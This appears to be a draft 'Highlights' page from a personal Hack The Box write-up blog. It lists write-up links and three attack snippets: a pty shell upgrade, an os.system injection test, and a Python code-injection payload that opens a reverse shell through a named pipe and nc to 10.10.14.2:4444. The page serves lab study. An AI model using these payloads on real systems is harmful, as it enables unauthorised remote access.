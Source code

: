 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: true
---
```


# Writeups
[Postman](post/htb/postman)
[Craft](post/htb/craft)
[Sneaky - Coming Soon](post/htb/sneaky)
[Traverxec - Coming Soon](post/htb/traverxec)

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
__import__("os"); os.system("pwd")
```

**python code injection w/import and backpiping**

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

![test image](/img/craft/developer.png)